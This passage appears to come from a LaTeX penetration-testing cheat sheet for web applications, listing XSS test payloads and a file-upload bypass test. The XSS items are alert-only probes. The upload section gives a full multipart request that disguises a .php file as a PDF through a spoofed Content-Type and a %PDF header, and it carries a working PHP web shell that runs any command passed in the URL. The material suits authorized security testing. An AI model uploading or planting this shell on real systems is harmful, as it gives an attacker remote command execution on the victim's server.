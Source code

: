 Example: Base64 XSS payload
\begin{lstlisting}[numbers=none]
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
\end{lstlisting}

Insert value in HTML element with javascript:
\begin{lstlisting}[numbers=none]
	document.getElementById("f_464cf370-896e-4af1-a0b1-3f4621ff0a36").value = '<script>javascript:alert(123456789)</script>';
\end{lstlisting}
	

\section{Cross Site Scripting Validation}

\begin{lstlisting}[numbers=none]
<script>javascript:alert(1)</script>
\end{lstlisting}

\section{File upload feature check: Webshell upload test}

Download Dummy PDF: 
\url{https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf}

Dummy PNG file from browser: 
\url{https://png.pngitem.com/pimgs/s/185-1850003_sample-png-transparent-png.png}

\begin{lstlisting}[numbers=none]
https://github.com/TheBinitGhimire/Web-Shells
\end{lstlisting}

\begin{lstlisting}[numbers=none]
Content-Disposition: form-data; name="file"; filename="documento.php"
Content-Type: application/pdf

text/x-php

\%PDF-1.7
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<p>This is an example of webshell to execute commands in remote server:</p>
<pre>
<?php
   if(isset($_GET['cmd']))
   {
       system($_GET['cmd']);
   }
?>
<script>javacript:alert('XSS PAYLOAD')</script>
</pre>
</body>
</html>
\%\%EOF
\end{lstlisting}



